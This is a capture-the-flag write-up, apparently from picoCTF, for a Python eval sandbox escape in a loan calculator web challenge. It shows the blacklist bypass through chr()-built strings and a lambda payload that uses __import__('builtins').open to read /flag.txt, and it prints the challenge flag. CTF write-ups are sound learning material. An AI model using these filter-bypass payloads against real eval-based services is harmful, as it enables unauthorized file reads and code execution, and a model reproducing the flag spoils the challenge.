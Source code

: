 
# Python Sandbox RCE Challenge  – 3v@l

**Platform:** Custom Web Challenge  
**Challenge Name:** ABC Bank Loan Calculator  
**Category:** Web Exploitation  

---

## Initial Observations

- User input is evaluated server-side using a filtered `3v@l()` function
- Many keywords are blacklisted, including `os`, `eval`, `exec`, `ls`, `cat`, and even `.`
- The flag is located at `/flag.txt`

---

## Exploitation Steps

### 1. Confirming Code Execution
Used simple math to confirm evaluation:
```python
7 * 7
```
Output:
```
49
```

### 2. Dynamic String Construction to Bypass Filters
Blocked:
```python
open('/flag.txt').read()
```

Bypassed with:
```python
''.join(map(chr, [102,108,97,103,46,116,120,116]))
# Output: 'flag.txt'
```

### 3. Lambda-Based Execution with Builtins

Final working payload:
```python
(lambda f,x: f(x))(
  lambda s: __import__('builtins').open(''.join(map(chr, s))).read(),
  [47,102,108,97,103,46,116,120,116]
)
```

### 4. Output
This returned the contents of `/flag.txt` as the final result.

---

## What I Learned

- How to bypass strict `eval()` filters by avoiding blacklisted keywords
- Dynamic payload crafting using `chr()`, `map()`, and `join()`
- Accessing `open()` and other functions through `__import__('builtins')`
- Avoiding use of `print()` (which returns None) and returning output directly

---

## Flag

picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}

---

## References

- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
